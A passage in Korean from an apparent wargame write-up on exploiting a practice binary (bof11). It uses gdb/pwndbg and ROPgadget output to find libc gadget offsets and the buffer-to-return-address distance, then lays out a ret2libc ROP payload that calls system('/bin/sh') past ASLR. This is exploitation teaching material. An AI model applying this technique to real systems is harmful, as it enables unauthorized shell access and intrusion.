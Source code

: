 15. 먼저 다음과 같이 gdb 로 libc 의 시작 주소가 0x7f836fd8d000 라는 것을 확인했다. 

    ```shell
    pwndbg> vmmap libc
    LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
        0x7f836fd8d000     0x7f836ff4d000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so
    ```

16. 그리고 다음과 같이 `ROPgadget` 으로 오프셋을 찾을 수 있다. 

    ```shell
    $ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "pop rdi ; ret"
    0x0000000000021102 : pop rdi ; ret
    ```
    
17. 결론적으로 `pop rdi ; ret` 의 주소값을 구할 수 있다. 

    `("pop rdi ; ret" 가젯의 주소값) = (libc 의 베이스 주소값) + ("pop rdi ; ret" 의 오프셋) = 0x7f836fd8d000 + 0x0000000000021102 = 0x7f836fdae102`

18. 그러면 최종적으로 `Z` 를 계산해보자. 

    ```shell
    pwndbg> p printf
    $14 = {<text variable, no debug info>} 0x7f836fde2800 <__printf>
    pwndbg> p/d 0x7f836fdae102 - 0x7f836fde2800
    $15 = -214782
    ```

19. 이렇게 `Z` 가 -214782 라는 것을 알 수 있다. 

## buf 에서 return address 까지의 거리

20. vuln 함수가 시작되었을 때 rsp 의 주소값을 확인하자. 이 주소값에 vuln 함수의 리턴 어드레스가 저장되어 있다. 

    ```shell
    pwndbg> i r rsp
    rsp            0x7ffe25be74c8   0x7ffe25be74c8
    ```

21. 그리고 gets 함수가 받는 인자를 확인해서 buf 의 주소값을 확인하고 리턴 주소값까지의 거리를 계산하자. 

    ```shell
    pwndbg> p/d 0x7ffe25be74c8 - 0x7ffe25be74b0
    $18 = 24
    ```

## ASLR 우회 페이로드 

22. bof11 은 printf 함수의 주소값이 유출된다는 설정을 가지고 있기 때문에 유출된 printf 함수의 주소값을 `A` 라고 하자. 그러면 쉘을 실행시키기 위한 페이로드는 다음과 같이 정해진다. 

| 쓰레기 값 | "pop rdi ; ret" 주소값 | "/bin/sh" 주소값 | system 주소값 |
|:------:|:----:|:-----:|:-----:|
| 24 바이트 | 8 바이트   | 8 바이트 | 8 바이트 |
